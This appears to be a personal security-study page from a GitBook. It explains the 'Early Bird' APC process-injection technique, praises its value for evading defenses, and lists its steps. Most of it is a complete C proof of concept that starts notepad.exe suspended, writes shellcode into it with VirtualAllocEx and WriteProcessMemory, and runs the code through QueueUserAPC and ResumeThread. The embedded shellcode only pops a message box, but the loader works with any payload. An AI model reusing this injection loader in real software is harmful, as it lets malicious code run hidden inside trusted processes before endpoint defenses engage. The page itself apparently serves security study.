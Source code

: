 ```yaml
---
description: 06/08/2023
---
```


# 🐦 APC Injection -- "Early Bird Attack"

## What is the "Early Bird" attack?

> "The early bird gets the worm..."

#### What is an APC?

This attack focuses on exploiting Asynchronous Procedure Calls (APC's).

First thing's first, you need to understand what APC is. <mark style="color:yellow;">APC, or Acynchronous Procedure Call</mark>, <mark style="color:yellow;">is a</mark> <mark style="color:yellow;">function that will execute asynchronously within a particular thread</mark>.

#### How does the attack work?

<mark style="color:yellow;">This attack will force another thread to execute their custom code by attaching it to the APC queue of the targeted thread</mark>.&#x20;

A thread will then enter an <mark style="color:yellow;">alterable state</mark> once it begins to wait for further execution.

#### Good for defense evasion?

This technique will allow for injected code to run before the entry point of the main thread of the process.&#x20;

* This allows for major evasion and bypassing
* However, it will only work if the defenses are NOT placed before the main thread has its execution resumed.

## High-Level Explanation

1. Create a <mark style="color:yellow;">suspended</mark> process
2. <mark style="color:yellow;">Allocate and write</mark> malicious code into that process
3. <mark style="color:yellow;">Queue an APC</mark> to that process
4. <mark style="color:yellow;">Resume</mark> the main thread to execute the APC

## Physical Notes

<figure><img src="../.gitbook/assets/IMG_8837.jpg" alt="" width="375"><figcaption></figcaption></figure>

## Proof-of-Concept

**earlybird.c:**

```c
#include <stdio.h>
#include <windows.h>

int createProcessF()

{

    unsigned char buf[] = 
                            "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
                            "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
                            "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
                            "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
                            "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
                            "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
                            "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
                            "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
                            "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
                            "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
                            "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
                            "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
                            "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
                            "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
                            "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
                            "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
                            "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
                            "\x4c\x8d\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
                            "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
                            "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
                            "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
                            "\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d\x20\x4d"
                            "\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78"
                            "\x00";

    size_t shellcode = sizeof(buf);
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};

    int createProcess = CreateProcessW(L"C:\\WINDOWS\\system32\\notepad.exe",NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

        if (!createProcess)

        {

            printf("(-) Process creation has failed please try again.\n Error: %ld", GetLastError);

            return EXIT_FAILURE;

        }

        else
        {

            printf("(+) Process was successfully created and started!\n PID: %ld", pi.dwProcessId);

            printf("\n\nProcess with PID:%ld has been started, goodbye.", pi.dwProcessId);

            //return EXIT_SUCCESS;

        }

    HANDLE hProcess = pi.hProcess;
    HANDLE hThread = pi.hThread;

    LPVOID shelladdress = VirtualAllocEx(hProcess, NULL, shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shelladdress;

    WriteProcessMemory(hProcess, shelladdress, buf, shellcode, NULL);
    QueueUserAPC((PAPCFUNC)shelladdress, hThread, NULL);
    ResumeThread(hThread);

    return 0;

}

int main()

{

printf("Starting notepad.exe as a new process...\n\n");

createProcessF();

}
```

<mark style="color:yellow;">This PoC will send</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`notepad.exe`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into a suspended state and return a message box upon detonation</mark>.

#### References

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection" %}
